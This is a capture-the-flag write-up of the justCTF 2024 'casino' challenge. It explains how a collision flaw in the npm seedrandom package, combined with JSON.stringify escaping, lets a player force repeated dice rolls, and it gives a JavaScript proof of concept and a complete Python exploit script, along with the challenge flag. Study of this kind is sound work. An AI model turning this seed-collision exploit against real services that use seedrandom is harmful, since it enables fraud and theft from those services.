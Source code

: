Author: 0x6fe1be2

Version 27-03-24

# [justCTF 2024 teaser](https://ctftime.org/event/2342) (15.06-16.06)

## casino
Category: MISC, WEB

Points: 394 (7 Solves)

Teammates: lavish, kdm, profiluefter

> Although the odds of winning are rigged, this casino is 100% fair! Can you win against the house?
> + http://casino.web.jctf.pro
>  + https://s3.cdn.justctf.team/95d9162d-abfc-4aac-8aed-b30a4d90c773/casino_docker.tar.gz  

### TL;DR

the npm package `seedrandom` has a collision vulnerability in `mixkey(seed, key)`, that can be abused to generate collisions in the generated seeds. This is exploited to create reoccuring rolls

### Overview

The challenge is a simple node js application that allows us to register for an account an play dice against the server.

```
.
├── Dockerfile
├── app.js
├── casino_docker.tar.gz
├── docker-compose.yaml
├── package.json
└── static
    ├── home.html
    ├── index.html
    ├── js
    │   ├── dice.js
    │   ├── main.js
    │   └── provablyFair.js
    ├── login.html
    └── provably-fair.html
```

We start with a balance of 1000 and need to aquire:

![one billion dollars](https://external-preview.redd.it/zoHY8xZQBX1jP5x8ZokujiQTh9VfhJHfgjMf1gFBalM.jpg?auto=webp&s=5651d4db504fe41ae3344e3d8fcdf563a8c6057e)

this is infeasible by pure luck so lets look at the code (or scroll through the website `/provably-fair.html`):

```js
app.post("/bet", (req, res) => {
    ...
    
    if (typeof clientSeed != "string" || clientSeed.length != 64) {
        res.json({ "error": "Invalid client seed!" })
        return
    }
    
    ...

    let roll = (seedrandom(JSON.stringify({
        serverSeed: req.user.serverSeed,
        clientSeed,
        nonce: req.user.nonce++
    })).int32() >>> 0) % 6 + 1

    ...
});

```

this uses the values`req.user.serverSeed`, `clientSeed` and `req.user.nonce` to generate a object that is turned into string using`JSON.stringify` for each bet. Notable observation are:  

+ serverSeed is securely randomly generated (and not changed) and 64 bytes long
+ clientSeed is provided for the user for each bet and 64 bytes long
+ nonce starts at 0 and get's incremented for each bet


We can also see that the `seedrandom` package ([npmjs](https://www.npmjs.com/package/seedrandom)) is used to generate the random value and role. 

Looking through the source code and the closed issues we find some interesting stuff, notably: [ Strings consisting of a repeated pattern cause collisions #63 ](https://github.com/davidbau/seedrandom/issues/63) and even though this isn't the intended vulnerability it's a good indecator that the library might have more issues.


### Vulnerability

Let's look at the source code of seedrandom, and we quickly find this function:

[seedrandom.js](https://github.com/davidbau/seedrandom/blob/released/seedrandom.js#L179)

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '', smear, j = 0;
  while (j < stringseed.length) {
    key[mask & j] =
      mask & ((smear ^= key[mask & j] * 19) + stringseed.charCodeAt(j++));
  }
  return tostring(key);
}
...
```

This is called using an empty list for `key` and the `seed` supplied from directly calling seedrandom. The mask value is `0xff` so basically a one byte mask. The code seems very basic and is not really trying to prevent any collision, but because it's kind of a big one liner it might not be easy to understand, so let's simplify it:

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '';
  var smear = 0;
  var j = 0;
  while (j < 0x100 &&j < stringseed.length) {
	\\ smear is always 0 for first round
    key[mask & j] = mask & stringseed.charCodeAt(j);
    j++;
  }
  while (j < stringseed.length) {
  	smear ^= key[mask & j] * 19;
    key[mask & j] = mask & (smear + stringseed.charCodeAt(j));
    j++;
  }
  return tostring(key); \\ create 255 length string from byte array
}
...
```

as we can see the seed wraps arround after 0x100 characters and 'insecurly' combines the values, especially if we consider that `stringseed.charCodeAt(j)` can return values larger than 0x100.

so let's try to create collisions:

### PoC

this is a simple PoC code that creates collisions using our prefix (in this case we can just use any serverSeed) and a predictable suffix.

```js
const seedrandom = require('seedrandom')
mask = 0xff
prefix = '{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'
rands = crypto.randomBytes(0x100/2).toString("hex")
suffix1='","nonce":0}'
suffix2='","nonce":1}'
ssize = suffix1.length

a = prefix + rands + suffix1

let smear = 0

for(let i = 0; i < a.length-0x100-ssize; i++) 
  smear ^= (a.charCodeAt(i)*19) & 0xff

let inject = ''  
let csmear = smear

for(let i = a.length-ssize; i < a.length; i++){
  let j = 0
  smear ^= (a.charCodeAt(i-0x100)*19) & 0xff
  for(; j < 0x100; ++j){
    if(((a.charCodeAt(i)+smear)&0xff) == ((suffix2.charCodeAt(i-a.length+ssize)+(csmear^(j*19)))&0xff)) {
      break;
    }
  }
  
  if(j == 0x100)
    console.log('no solution')

  inject += String.fromCharCode(j)
  csmear ^= (j * 19) & 0xff
}

b = prefix + inject + rands.substring(inject.length) + suffix2

console.log(seedrandom(a).int32())
console.log(seedrandom(b).int32())

```

so now that we can create a collision there is only one remaining problem, for a wrap arround we need at least 0x100 (256) bytes and in order to align the predictable suffix with our user controlled value we need our user controlled value to be about 0x100 by itself, but it's limited to 64, so how do we do this?

### json.dumps vs JSON.stringify

JSON stringify actually escapes certain string, notably these:

```js
>> JSON.stringify('\0') \\ length 6
'"\\u0000"' 

>> JSON.stringify('') \\ length 2
'""' 
```

which we can use to increase the size of our client_seed to (and above) the desired length of 0x100.

Sadly i ran into an issue here, I wrote my exploit in python and hoped that `json.dumps` creates the same strings as `JSON.stringify`, which is not the case, and can easily be tested like this:

```js
for(let i = 0; i < 0x1000; i++)
  if(JSON.stringify(String.fromCharCode(i)).length != 3)
    console.log(i)
```

and for python

```python
import json
for i in range(0x100):
	if json.dumps(chr(i)) != 3:
		print(i)
```

notably all charcters after 0x7f are unicode escaped to 6 bytes in python, which is not the case for js.

so we just create a comparable list ourselves using this:

```python
printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))
```

We can now combine all our techniques to write an exploit and get the flag.

### Exploit

Flag: `justCTF{n0_w4y__h0w_1ucky_4re_y0u??}`

<details>

```python
#!/usr/bin/env python3

import requests
import random
import string
import json
import subprocess


URL = 'http://casino.web.jctf.pro'
# URL = 'http://localhost:3030'

def gen_random(length: int, alphabet: str = string.ascii_lowercase) -> str:
  return ''.join(random.choices(alphabet, k=length))

def reg_user(session, username: str, password: str):
  data = {
    'username': username,
    'password': password
  }
  r = session.post(f'{URL}/register', data=data)
  
  assert r.status_code == 200


def get_info(session):
  return session.get(f'{URL}/info').json()


def bet(session, amount: int, guess: int, client_seed: str):
  data = {
    'bet': amount,
    'guess': guess,
    'clientSeed': client_seed
  }
  r = session.post(f'{URL}/bet', data=data)
  
  assert r.status_code == 200
  return r.json()

def mixkey(seed, key):
  mask = 0xff
  stringseed = seed + ''
  smear = 0
  j = 0
  while j < len(stringseed):
    smear ^= key[mask & j] * 19
    key[mask & j] = mask & (smear + ord(stringseed[j]));
    j += 1
  return ''.join(chr(x) for x in key);

printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))

rands = list(gen_random(64))

i = 0
while (rsz := len(json.dumps(''.join(rands)))) != 0x102:
  if rsz < 0x102:
    i -= 1
    rands[i] = '\0'
  else:
    rands[i] = '"'

rands = ''.join(rands)
rands_stringify = json.dumps(rands)[1:-1]

def gen(n1=0, cnt=9, prefix='{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'):

  suffix1='","nonce":%d}' % n1
  outs = [rands]

  for i in range(1, cnt+1):
    suffix2 = '","nonce":%d}' % (n1 + i)
    assert len(suffix1) == len(suffix2)
    ssize = len(suffix1)

    a = prefix + rands_stringify + suffix1

    smear = 0

    for i in range(len(a)-0x100-ssize):
      smear ^= (ord(a[i])*19) & 0xff

    inject = ''  
    csmear = smear

    for i in range(len(a)-ssize, len(a)):
      j = 0
      char = -1
      smear ^= (ord(a[i-0x100])*19) & 0xff
      for j in printables:
        if(((ord(a[i])+smear)&0xff) == ((ord(suffix2[i-len(a)+ssize])+(csmear^(j*19)))&0xff)):
          char = j
          break;
      
      if(char == -1):
        print('no solution')
        exit(1)

      inject += chr(char)
      csmear ^= (j * 19) & 0xff

    clash = inject + rands[len(inject):]
    
    b = prefix + json.dumps(clash)[1:-1] + suffix2

    # print(a)
    # print(b)

    outs.append(clash)

  return outs

while True:
  username = gen_random(10)
  password = gen_random(12, alphabet=string.ascii_letters + string.digits)

  session = requests.Session()
  reg_user(session, username, password)

  guess = -1
  for s in gen(0):
    bet_data = bet(session, 100, guess if guess != -1 else 1, s)
    print(bet_data, end='\n')

    if guess == -1:
      guess = bet_data['roll']

  if bet_data['balance'] <= 1700:
    continue

  for i in range(10, 1000000, 10):
    guess = -1 
    for s in gen(i):
      bet_size = bet_data['balance'] // 4 if guess != -1 else 1
      bet_data = bet(session, bet_size, guess if guess != -1 else 1, s)
      print(bet_data, end='\n')

      if bet_data['balance'] < 1000:
        break 

      if guess == -1:
        guess = bet_data['roll']

      if bet_data['balance'] >= 1e9:
        r = session.get(f'{URL}/flag')
        print(r.text)
        exit(0)

    if bet_data['balance'] < 1000:
      break 

```

</details>